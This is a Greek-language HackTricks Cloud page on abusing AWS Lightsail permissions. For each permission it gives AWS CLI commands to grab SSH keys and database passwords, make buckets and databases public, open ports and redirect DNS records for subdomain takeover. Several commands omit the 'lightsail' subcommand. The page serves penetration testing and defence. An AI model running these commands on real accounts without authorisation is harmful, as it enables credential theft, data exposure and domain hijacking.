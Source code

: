 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail, ελέγξτε:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι το Lightsail **δεν χρησιμοποιεί ρόλους IAM που ανήκουν στον χρήστη** αλλά σε έναν διαχειριζόμενο λογαριασμό AWS, οπότε δεν μπορείτε να εκμεταλλευτείτε αυτή την υπηρεσία για privesc. Ωστόσο, **ευαίσθητα δεδομένα** όπως κώδικας, κλειδιά API και πληροφορίες βάσης δεδομένων θα μπορούσαν να βρεθούν σε αυτή την υπηρεσία.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα κλειδιά SSH για να έχετε πρόσβαση στις περιπτώσεις:
```
aws lightsail download-default-key-pair
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:GetInstanceAccessDetails`

Αυτή η άδεια θα σας επιτρέψει να δημιουργήσετε κλειδιά SSH για να αποκτήσετε πρόσβαση στις περιπτώσεις:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε ένα κλειδί για να έχετε πρόσβαση στον κάδο:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στον κάδο.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα διαπιστευτήρια για να έχετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτή η άδεια θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για την πρόσβαση στη βάση δεδομένων:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Αν η βάση δεδομένων δεν είναι δημόσια, μπορείτε επίσης να την κάνετε δημόσια με αυτές τις άδειες με

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα έχει ανοιχτεί και δεν έχει καθοριστεί σε αυτήν.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτή η άδεια επιτρέπει να δοθεί σε μια παρουσία πρόσβαση σε έναν κάδο χωρίς επιπλέον διαπιστευτήρια.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει την δική του AWS λογαριασμό πρόσβαση ανάγνωσης σε buckets ή ακόμα και να κάνει τα buckets δημόσια σε όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτές τις άδειες, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει πρόσβαση σε ιδιωτικά ECRs από την υπηρεσία κοντέινερ.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανές Επιπτώσεις:** Λάβετε ευαίσθητες πληροφορίες από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμα και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

### `lightsail:UpdateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμα και να ρυθμίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

